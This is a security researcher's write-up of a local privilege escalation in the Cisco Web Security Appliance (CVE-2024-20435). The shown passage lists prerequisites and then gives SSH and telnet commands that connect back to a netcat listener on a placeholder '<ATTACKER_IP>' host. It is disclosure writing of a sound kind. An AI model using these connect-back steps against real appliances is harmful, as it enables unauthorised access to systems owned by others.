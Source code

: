 ```yaml
---
title: Cisco WSA Rce (CVE-2024-20435)
description: Arbitrary Command Execution in Cisco Web Appliance
tags:
- hacking
- exploit
- rce
---
```


In this writeup I'd like to share one of the few bugs I'm allowed to
talk about, a local privilege escalation in Cisco Web Security
Appliance. While not a spectacular code execution, I found it intriguing
because it mixed different technologies (telnet, Redis and FreeBSD!).

TL;DR A local, low-privileged user on a Cisco WSA can execute arbitrary code through an
unprotected Redis interface and some Telnet shenaningans.

Cisco published the advisory [here](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-swa-priv-esc-7uHpZsCC).

## Pre-requisites

 * A local user on the appliance - note that even if the user is meant
   to have only web access, it will by default have a limited SSH shell
   too
 * The ability to resolve arbitrary domain names
 * A host to connect back to (listening on IP address `<ATTACKER_IP>`)

## Intro

As a first step, we log on the appliance and execute a telnet session.
Before connecting, launch a netcat listener on `<ATTACKER_IP>` on port
12345.

```bash
$ ssh lowpriv@cisco-wsa
(lowpriv@cisco-wsa) Password:
AsyncOS 15.1.0 for Web build 287

Welcome to the Cisco S695 Secure Web Appliance
~
NOTE: This session will expire if left idle for 30 minutes. Any uncommitted configuration
changes will be lost.

[...]

cisco-wsa> telnet

Please select which interface you want to telnet from.
1. Auto
[1]> 1

Enter the remote hostname or IP address.
[]> <ATTACKER_IP>

Enter the remote port.
[23]> 12345

Trying <ATTACKER_IP>...
Connected to <ATTACKER_IP>.
Escape character is '^]'.
```
